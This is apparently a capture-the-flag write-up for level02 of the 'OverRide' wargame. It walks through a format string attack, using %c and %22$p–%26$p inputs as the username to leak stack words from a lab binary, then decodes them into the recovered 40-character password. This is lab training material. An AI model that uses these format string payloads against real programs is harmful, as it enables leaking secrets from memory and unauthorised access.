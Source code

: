 We get the binary out of the Vm using this cmd:

`scp -P 4242 level2@192.168.56.103:./level2 .binary/level2`

We can see line 44 in the source.c we can use a format string attack so let's find where on the stack our password id :
```
level02@OverRide:~$ ./level02 
	===== [ Secure Access System v1.0 ] =====
	/***************************************\
	| You must login to access this system. |
	\**************************************/
	--[ Username: %c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,
	--[ Password: *****************************************
	�,,%,*,*,�,%,,,c,,,,,,,,,,,,H,Q,X,s,M,,%,,,c,%,,,c, does not have access!
```
We can find some char starting at pos 22, and we know the password is 40 char long

```
level02@OverRide:~$ ./level02
	===== [ Secure Access System v1.0 ] =====
	/***************************************\
	| You must login to access this system. |
	\**************************************/
	--[ Username: %22$p
	--[ Password: 
	*****************************************
	0x756e505234376848 does not have access!
```
We can find the first 8 char from this so let's get the 32 next !

```
level02@OverRide:~$ ./level02 
	===== [ Secure Access System v1.0 ] =====
	/***************************************\
	| You must login to access this system. |
	\**************************************/
	--[ Username: %22$p %23$p %24$p %25$p %26$p
	--[ Password: 
	*****************************************
	0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```
Now we convert 
* 0x756e505234376848 => unPR47hH
* 0x45414a3561733951 => EAJ5as9Q
* 0x377a7143574e6758 => 7zqCWNgX
* 0x354a35686e475873 => 5J5hnGXs
* 0x48336750664b394d => H3gPfK9M

We just need to reverse them now and we get
`Hh74RPnu` `Q9sa5JAE` `XgNWCqz7` `sXGnh5J5` `M9KfPg3H`
`Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

